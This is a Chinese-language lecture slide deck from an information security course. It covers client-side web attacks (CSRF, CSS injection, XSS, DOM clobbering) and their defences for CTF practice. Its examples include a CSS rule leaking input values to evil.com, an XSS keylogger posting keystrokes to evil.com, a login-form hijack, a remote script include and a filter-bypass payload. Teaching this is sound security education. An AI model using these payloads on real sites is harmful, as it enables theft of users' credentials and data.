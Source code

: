```yaml
---
title: web专题一 - 2025信息安全课程综合实践
separator: <!--s-->
verticalSeparator: <!--v-->
theme: simple
highlightTheme: monokai-sublime
css:
    - custom.css
    - dark.css
revealOptions:
    transition: 'slide'
    transitionSpeed: fast
    center: false
    slideNumber: "c/t"
    width: 1000
---
```




<div class="middle center">
<div style="width: 100%">

# Web 专题一 : 用户侧攻击

CSRF / CSS Injection / XSS / Dom Clobbering

</div>
</div>

<div style="margin-top: -250px; margin-right: 20px;display: flex; justify-content: flex-end; align-items: center;">
<img style="float: right; border-radius: 50%;" width="8%" src="web-lec2/logo.jpg">
<h3>
@ yelan
</h3>
</div>

<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.0 什么是"用户侧攻击"?

站在"黑客"的视角...

</div>
</div>


<!--v-->


## 对于一个目标服务器

<image style="float: right; margin-right: 24px;" src="web-lec2/scan.png" width="45%" style="margin: 0 auto;">

- 它通常会开启一些服务
    + HTTP(HTTPS) 服务: 运行 Web 应用
    + FTP 服务: 传输文件
    + SSH 服务: 远程登录
    + 数据库服务: 存储数据
    + ......
- CTF 中的 Web 题目通常是针对 HTTP 服务的攻击
    + 也就是针对 Web 应用的攻击

<image style="float: right; margin-right: 24px;" src="web-lec2/htb.png" width="45%" style="margin: 0 auto;">

- 对于其他服务
    + 可能在 Misc 题目中体现
    + 可能在实战环境中体现

<!--v-->


## Server-Client 架构

对 Web 应用的攻击过程,一般可以分为两个思路:

<image style="float: right; margin-right: 24px;" src="web-lec2/server-client.png" width="40%" style="margin: 0 auto;">

- 服务侧(后端)
    + 攻击服务器或应用本身
    + 目的是使服务故障,获取敏感信息,提升权限甚至拿到 Shell
    + 手段有 SQL 注入,文件上传等

<image style="float: right; margin-right: 24px;" src="web-lec2/client-side.png" width="40%" style="margin: 0 auto;">

- 用户侧(前端)
    + 攻击同样使用这个应用的**其他用户**
    + 目的是获取其他用户的敏感信息,或诱导其他用户执行恶意操作
    + 手段有 CSRF, XSS 等

<!--v-->


## 用户侧攻击

- 我们要假设存在一个"受害者"
    + 在 CTF 题目中往往以 bot(自动脚本) 的形式出现
    + 它会使用这个 Web 应用并执行一些操作
    + 最终目的是让它执行一段我们精心构造的恶意代码
    
- 💀 作为用户,我们每个人都可能是"受害者"...
    + 钓鱼网站
    + yelan\\u202E~喵\\u202D
    + [QQ探针技术](https://github.com/Y5neKO/qq_xml_ip)
    <img style="float: right; margin-right: 24px;" src="web-lec2/edusrc.png" width="50%" style="margin: 0 auto;">
    + [打开微信自动下载原神](https://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247485359&idx=1&sn=a3dc73eebed17bd60b89a2e1d766b442&poc_token=HL5NZ2ijIcTVAh5jv6L7Bw4qZBN-FV74W3wj8SpM)
    + 或许更多?


<!--v-->


<div class="middle center">
<div style="width: 100%">

# 让我们继续......

CSRF / CSS Injection / XSS / Dom Clobbering

</div>
</div>

<!--s-->


<div class="middle center">
<div style="width: 100%">

# Part.1 CSRF

</div>
</div>

<!--v-->


## 什么是 Cookie

- 简单来说,Cookie 是浏览器储存的一些数据,用于标识用户身份
- 客户端在与服务器交互时
    + 客户端可以携带 Cookie
    + 服务器可以根据 Cookie 来验证用户身份,也可以在响应中给客户端设置 Cookie
- 例如,用户进行登录,登录成功之后,服务器的响应中带有响应头`Set-Cookie`,浏览器会将这个 Cookie 储存起来,并在之后的请求中顺带发送这个 Cookie,如果服务器验证通过,则认为用户已经登录,不需要再次进行登录验证
- [Cookie Editor](https://chromewebstore.google.com/detail/cookie-editor/ookdjilphngeeeghgngjabigmpepanpl)
- ❓ 怎样的 Cookie 设计是不安全的
<!--v-->


## 想象这样一个情景

- 受害者已经登录过某个商店应用,并持有 Cookie
- 我们诱导受害者访问我们的页面,其中含有一个恶意链接指向商店的购买链接
- 我们诱导受害者点击这个链接,受害者的浏览器会向这个商店发送购买请求
- 由于受害者持有 Cookie,商店会认为受害者已经登录,并完成购买

<div class="center">
    <img style="float:center;margin-top:50px" src="web-lec2/csrf.png" width="90%" style="margin: 0 auto;">
</div>
<!--v-->


## CSRF 的防御

- Referer 检查
    - 服务器检查请求的 Referer 字段,如果不是来自合法的页面,则拒绝请求
    - 虽然 Referer 可以被伪造,但是对于受害者来说,他既然是被误导点击了恶意链接,那么一般不会手动去修改自己请求的 Referer 字段
- Token
    - 服务器在 Cookie 中设定一个额外的字段 CSRFToken
    - 服务器在购买页面中嵌入这个 Token 值,要求用户在购买时把这个 Token 值一起提交到服务器
    - 只有用户提交的 Token 值与服务器储存的 Token 值一致时,服务器才会认为用户是合法的
    - 这样一来,即使攻击者诱导受害者点击了恶意链接,也无法知道正确的 Token 值,从而无法完成购买
- 通过 CSRF 的例子,我们初步体会到了用户侧攻击的思想,以及绕过防御的思想
<!--v-->


<div class="middle center">
<div style="width: 100%">

# 有没有可能盗取 Token?
# 有没有可能盗取 Cookie?

</div>
</div>



<!--s-->


<div class="middle center">
<div style="width: 100%">

# Part.2 CSS Injection

</div>
</div>

<!--v-->
## 什么是 HTML
- **HTML文档就像一棵树**
```HTML
<html>
<head>
    <title>Title</title>
    <style>
        body { background-color: lightblue; }
        h1 { color: navy; font-size: 24px; }
    </style>
</head>
<body>
    <h1 id="aaa">This is a tag node.</h1>
    <div name="bbb">
        <p>This is also a tag node.</p>
    </div>
</body>
</html>
```

<!--v-->

## 什么是 CSS

- CSS 是一种样式表语言,用于描述 HTML 文档的外观和格式
- 浏览器向服务器发送请求,服务器返回 HTML 文档,浏览器解析 HTML 文档并渲染页面
- 其中 `<style>` 和其他某些标签用于定义 CSS 样式
- HTML 也可以引用外部 CSS 文件
- 如果我们可以控制受害者收到的 HTML 文档中的 CSS 样式,我们能做什么?
<div style="display:flex;justify-content: center;align-items: center;">
    <img style="float:center;margin-top:50px" src="web-lec2/server-client.png" width="60%" style="margin: 0 auto;">
</div>
<!--v-->


## CSS 示例

- CSS 通过[选择器](https://developer.mozilla.org/zh-CN/docs/Web/CSS/CSS_selectors)来选择 HTML 元素,并应用样式

```css
h1 { color: red;}                       // 元素选择器,选择所有 h1 元素
#myId { font-size: 20px; }              // ID选择器,选择 ID 为 myId 的元素
.myClass { background-color: yellow; }  // 类选择器,选择所有 class 为 myClass 的元素
[type="text"] { border: 1px; }          // 属性选择器,选择所有 type 属性为 text 的元素
                                        // 组合选择器......
p::first-line { font-weight: bold; }    // 伪元素选择器,选择所有 p 元素的第一行
```
- 但是只修改受害者的页面样式似乎是不够的,如何才能与受害者进行交互?

<!--v-->


## CSS Injection

- 通过 CSS 的一些特性可以泄露受害者当前页面的敏感信息

```html
<!-- 以下是受害者 HTML 中的敏感信息 -->
<input name="secret" value="AAA{secret}">
<!-- 以下是你注入的恶意 CSS -->
<style>
    input[name="secret"][value^="A"]{ 
        background-image: url(http://evil.com/?start=A);
    }
</style>
```

- 运用到了布尔盲注的思想
- CSS Injection 的攻击性依赖于 CSS 的功能,而 CSS 的功能是有限的
- CSS Injection 要求我们能够控制受害者收到的 HTML 文档中的 CSS 样式,但这是很难的

<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.3 XSS

</div>
</div>

<!--v-->

## 什么是 XSS

- 跨站脚本攻击,基于 HTML 和 JavaScript
- 最终目的是让"受害者"执行一段我们精心构造的 JavaScript 代码
- 最小模型:
    + 服务端:
        - 接受用户的输入,并储存到自己的数据库中
        - 当用户访问某个页面时,从数据库中读取数据并返回给用户
    + 客户端:
        - 攻击者:构造恶意输入,使服务端储存到数据库中
        - 受害者:访问页面时,获取到了恶意输入,并执行了恶意代码
- XSS 的危害性取决于 JavaScript 的能力
    + Cookie泄露,内网扫描,键盘记录,权限获取
- 在 CTF 题目中,往往只要求我们泄露某些敏感信息
<!--v-->


## 稍等一下...

- HTML/JavaScript 复习
    + 浏览器向服务器发送请求,服务器返回 HTML 文档,浏览器解析 HTML 文档并渲染页面
    + 其中 `<script>` 和其他某些标签用于执行 JavaScript 代码
    + 所以 XSS 发生在**浏览器中**,在受害者浏览器**解析 HTML 文档时**
- 老师没教过 HTML 和 JavaScript?
    + 在查找资料和询问 AI 的基础上快速上手一门语言是程序员的基本素养
    + 对于简单的 XSS 攻击,不需要了解 JavaScript 和 HTML 的复杂特性,只需要学会基本运用

<!--v-->


## 让我们演示一下
```javascript
// 这种只验证漏洞存在而不造成实际损害的测试代码被称为 POC (Proof of Concept)
alert("Hello, world!");
// 与之相对,进行实际攻击的代码被称为 Payload
// 键盘监听器
var keys = "";
document.onkeypress = function(e) {
  keys += e.key;
  if(keys.length > 30) {
    fetch("http://evil.com/keys?data=" + encodeURIComponent(keys));
    keys = "";
  }
}
// 替换登录表单
document.querySelectorAll('form')[0].action = "https://evil.com/fake_login";
// ......
```

<!--v-->


## 一定要直接插入 Script 代码吗

```html
<script src="https://evil.com/xss.js"></script>
```
- 攻击方式进一步简化
- 攻击者只需要修改自己的`xss.js`文件就可实现不同种类的攻击


<!--v-->


## XSS 的防御及绕过

- 与 WAF(Web Application Firewall) 的对抗是 WEB 的常态
- 过滤
    + 前端过滤: 抓包绕过
    + 过滤掉 `<script>` 标签: 利用 `<img>`, `<svg>` 等绕过
        - `<svg onload="alert('XSS')"></svg>`
    + 过滤掉 `on*` 事件: 利用 `javascript:` 协议绕过
    + 第三方库: `DOMPurify` 等
        - 库的配置不当会导致绕过
- HTML 转义
- CSP(Content Security Policy)
    + 限制页面加载的资源,如脚本、样式等
    + 但不安全的 CSP 配置也有绕过方式

<!--v-->

## 绕过不是一定成功的

- 要针对不同的 WAF 设计不同的绕过策略
- 积累经验
- 多查资料
    + [hacktricks](https://book.hacktricks.wiki/en/pentesting-web/pocs-and-polygloths-cheatsheet/index.html?highlight=xss#xss)
    + [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass)

<!--v-->

## 我没有域名/公网 IP

- 什么是公网?
- 什么是内网穿透
- 内网穿透工具
    + [Cpolar](https://www.cpolar.com/)
- 或者:
    + 有没有其他办法可以获取到"受害者向他能访问到的地址发送的敏感信息"?
    + [webhook](https://webhook.site/)

<!--v-->


<div class="middle center">
<div style="width: 100%">

# CSRF 留下的两个问题?

</div>
</div>
<!--s-->


<div class="middle center">
<div style="width: 100%">

# Part.4 Dom Clobbering

</div>
</div>
<!--v-->

## 什么是 DOM
- DOM (Document Object Model) 是浏览器解析 HTML 文档后形成的一个树状结构
- DOM 中的每个节点都代表 HTML 文档中的一个元素
- JavaScript 可以通过 DOM API 来操作这些节点,例如添加、删除、修改节点等
```JavaScript
const string = "AAA\u202E~喵\u202D:hack成功了";
const target = document.getElementById("target");   // 获取目标元素
for (let i = 0; i < string.length; i++) {
    const span = document.createElement("span");    // 创建一个新的 span 元素
    span.textContent = string.slice(0, i + 1);
    // 将新元素添加到目标元素中
    target.appendChild(span);
    target.appendChild(document.createElement("br"));
}
```
- 那是否有可能通过 DOM 的操作来影响 JavaScript 的执行?

<!--v-->

## DOM Clobbering

- 不同浏览器对 DOM 的处理方式不一定完全相同,接下来的测试均运行在 Chrome 浏览器上
- [named-access-on-the-window-object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)

```html
<h1 id="x"></h1>
<h2 id="x"></h2>
<embed name="e"></embed>
<object name="o"></object>
<form id="f">
    <input type="text" id="i" value="test">
</form>
```

- 既然如此,那么如果我们在一定程度上可控 DOM,就可以进行其他角度的攻击
<!--v-->

## DOM Clobbering

- id 可以直接用 window 访问
- embed, form, img 跟 object 等也可以用 name 访问
- 可以利用 name 或 id 访问 form 的某些特定子元素
    + button,input
- 如果回传的元素很多,会被打包成 HTMLCollection,进而用 name 或 id 访问

```html
<form id="f">
    <input id="aaa"/>
    <button name="bbb"/>
</form>
<div id="ccc" name="c1"/>
<div id="ccc" name="c2"/>
```

<!--v-->

## 意料外的 toString

- 假设我们已经篡改了 JS 中的某个关键变量为我们构造的恶意 DOM 元素,而且这个变量大概率是要加入到计算中的
- HTML 元素与字符串进行拼接时,会调用其 toString 方法
    + 绝大部分 HTML 元素的 toString 方法返回的是一个[object SomeElement]
        - [object SomeElement]与字符串拼接时,结果也是[object SomeElement],无法利用
    + `<a>` 和 `<area>` 的 toString 方法返回的是其 href 属性,是个字符串
        - 这就可以利用了,可以将其 href 属性设置为恶意链接,从而实现 XSS

<!--v-->

## 绕过 XSS 过滤

```javascript
var script = window.document.createElement("script");

var loc;
if (AMP_MODE.test && window.testLocation) {
    loc = window.testLocation
} else {
    loc = window.location;
}

if (AMP_MODE.localDev) {
    loc = loc.protocol + "//" + loc.host + "/dist"
} else {
    loc = "https://cdn.ampproject.org";
}

script.src = loc;
document.head.appendChild(script);
```


<!--s-->

<div class="middle center">
<div style="width: 100%">

# Thank you!

</div>
</div>

<div style="margin-top: -250px; margin-right: 20px;display: flex; justify-content: flex-end; align-items: center;">
<img style="float: right; border-radius: 50%;" width="8%" src="web-lec2/logo.jpg">
<h3>
@ yelan
</h3>
</div>